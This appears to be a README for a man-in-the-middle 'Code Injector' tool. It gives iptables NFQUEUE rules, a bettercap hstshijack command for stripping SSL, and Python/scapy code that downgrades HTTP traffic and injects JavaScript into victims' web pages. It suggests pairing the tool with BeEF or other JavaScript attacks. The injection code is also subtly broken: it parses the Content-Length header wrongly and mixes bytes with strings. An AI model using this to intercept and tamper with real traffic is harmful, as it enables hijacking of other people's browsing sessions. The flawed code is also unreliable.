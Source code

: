 # Code Injector
Idea here is to edit requests/responses, replace download requests,
and inject html and javascript. This can be used in parallel with
the beef framework, or any other javascript attack.

Requires being a MiTM machine.

```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
Delete the iptable rule when done
```bash
iptables --flush
```

### To test on local machine use these commands
```bash
iptables -I OUTPUT -j NFQUEUE --queue_num 0
iptables -I INPUT -j NFQUEUE --queue_num 0

# When done
iptables --flush
```

### For SSLStrip
```bash
iptables -I OUTPUT -j NFQUEUE --queue_num 0
iptables -I INPUT -j NFQUEUE --queue_num 0
bettercap -iface eth0 -caplet hstshijack/hstshijack
```
code to change (Have to downgrade to HTTP 1.0):
```python
def process_packet(packet):
    scapy_packet = IP(packet.get_payload())  # Transform raw packet to scapy.
    if scapy_packet.haslayer(Raw):  # Checking if a packet has a Raw response on the TCP layer.
        try:
            load = scapy_packet[Raw].load.decode()
            if scapy_packet[TCP].dport == 8080:  # dport is incoming
                print("HTTP Request")
                # Replacing encoding to see raw html.
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
                load = load.replace("HTTP/1.1", "HTTP/1.0")
            elif scapy_packet[TCP].sport == 8080:  # sport is outgoing
                print("HTTP Response")
                injection_code = "<script>alert('test');</script>"
                load = scapy_packet[Raw].load.replace("</body>", f"{injection_code}</body>")
                content_length_search = re.search(r"Content-Length:\s(\d*)", load)
                # Modify content length on return to insure our code isn't cutoff from running.
                if content_length_search and "text/html" in load:
                    content_length = content_length_search.group(0)  # First match just the digits.
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            if load != scapy_packet[Raw].load:
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        except UnicodeDecodeError:  # We don't care about packets we can't unicode decode.
            pass
```